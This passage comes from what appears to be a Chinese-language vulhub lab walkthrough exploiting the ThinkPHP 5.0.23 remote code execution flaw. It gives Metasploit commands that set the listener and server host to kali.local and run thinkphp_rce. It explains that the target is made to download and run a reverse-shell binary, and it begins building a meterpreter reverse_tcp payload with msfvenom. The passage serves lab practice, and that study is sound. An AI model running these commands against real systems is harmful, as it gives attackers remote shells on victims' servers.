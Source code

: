 设置 lhost

```
msf6 exploit(unix/webapp/thinkphp_rce) > set lhost kali.local
```

设置 lport

```
msf6 exploit(unix/webapp/thinkphp_rce) > set lport 4444
```

设置 srvhost

```
msf6 exploit(unix/webapp/thinkphp_rce) > set srvhost kali.local
```

设置 srvport

```
msf6 exploit(unix/webapp/thinkphp_rce) > set srvport 8080
```

运行 thinkphp_rce

```
msf6 exploit(unix/webapp/thinkphp_rce) > run
```

![运行 thinkphp_rce](./../../../../../images/vulhub/thinkphp/ThinkPHP5%205.0.23%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/%E8%BF%90%E8%A1%8C%20thinkphp_rce.png)

>MSF 会先生成一个反弹 shell 的可执行程序
>
>启动 8080 端口让目标主机可以访问下载这个程序
>
>通过漏洞执行命令：下载程序→添加执行权限→执行程序→删除文件

> 在目标主机执行这个可执行程序之后反弹 shell 给 MSF。

**手动**

生成后门

```
┌──(root㉿kali)-[~]
└─# msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=kali.local lport=4444 -f elf -o /var/www/html/reverse_tcp_shell
```
